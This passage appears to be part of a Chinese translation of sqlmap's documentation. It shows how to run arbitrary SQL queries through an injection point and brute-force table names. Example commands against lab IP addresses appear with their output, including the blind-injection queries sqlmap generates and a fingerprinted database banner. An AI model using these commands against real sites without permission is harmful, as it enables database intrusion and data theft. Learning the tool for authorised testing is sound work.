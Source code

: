 如果是SELECT查询语句，sqlap将会输出结果。如果是通过SQL注入执行其他语句，需要测试是否支持多语句执行SQL语句。

列举一个Mircrosoft SQL Server 2000的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1

[...]
[hh:mm:14] [INFO] fetching SQL SELECT query output: 'SELECT 'foo''
[hh:mm:14] [INFO] retrieved: foo
SELECT 'foo':    'foo'

$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo', 'bar'" -v 2

[...]
[hh:mm:50] [INFO] fetching SQL SELECT query output: 'SELECT 'foo', 'bar''
[hh:mm:50] [INFO] the SQL query provided has more than a field. sqlmap will now unpack it into 
distinct queries to be able to retrieve the output even if we are going blind
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(102)+CHAR(111)+CHAR(111)) AS VARCHAR(8000)), 
(CHAR(32)))
[hh:mm:50] [INFO] retrieved: foo
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(98)+CHAR(97)+CHAR(114)) AS VARCHAR(8000)), 
(CHAR(32)))
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar':    'foo, bar'
```

## 爆破

* * *

### 暴力破解表名

参数：–common-tables

当使用–tables无法获取到数据库的表时，可以使用此参数。

通常是如下情况：

```
1、MySQL数据库版本小于5.0，没有information_schema表。
2、数据库是Microssoft Access，系统表MSysObjects是不可读的（默认）。
3、当前用户没有权限读取系统中保存数据结构的表的权限。
```

暴力破解的表在txt/common-tables.txt文件中，你可以自己添加。

列举一个MySQL 4.1的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL &lt; 5.0.0
banner:    '4.1.21-community-nt'

```